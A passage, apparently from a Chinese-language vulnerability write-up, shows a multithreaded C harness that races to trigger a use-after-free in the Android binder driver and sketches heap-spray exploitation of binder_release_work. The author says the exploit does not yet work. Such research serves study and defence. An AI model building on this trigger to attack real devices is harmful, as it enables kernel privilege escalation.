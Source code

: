 多线程调用，更大概率可以触发到

```c
int main() {
    pthread_t trigger_threads[NB_TRIGGER_THREADS];

    // Memory region for binder transactions
    mmap((void*)MEM_ADDR, MEM_SIZE, PROT_READ | PROT_WRITE,
         MAP_PRIVATE | MAP_FIXED | MAP_ANONYMOUS, -1, 0);

    // Init random
    srand(time(0));

    // Get rid of stdout/stderr buffering
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    // Starting trigger threads
    debug_print("Starting trigger threads");
    for (unsigned long i = 0; i < NB_TRIGGER_THREADS; i++) {
        pthread_create(&trigger_threads[i], NULL, trigger_thread_func, (void*)i);
    }
    // Waiting for trigger threads
    for (int i = 0; i < NB_TRIGGER_THREADS; i++)
        pthread_join(trigger_threads[i], NULL);

    return 0;
}
```

## 漏洞利用

在这里，主要说一下漏洞利用思路，目前利用脚本还没有写成功

由于已经造成了uaf,所以接下来的想法就是堆喷喷上去，最好是里面的内容是我们自己伪造的，这样我们就可以控制binder_release_work的后续流程了

```c
static void binder_release_work(struct binder_proc *proc,
                struct list_head *list)
{
    struct binder_work *w;
    while (1) {
        w = binder_dequeue_work_head(proc, list);
        if (!w)
            return;

        switch (w->type) { /* <-- Value controlled with the use-after-free */
        // [...]
        default:
            pr_err("unexpected work type, %d, not freed\n",
                   w->type);
            break;
        }
    }
}
```
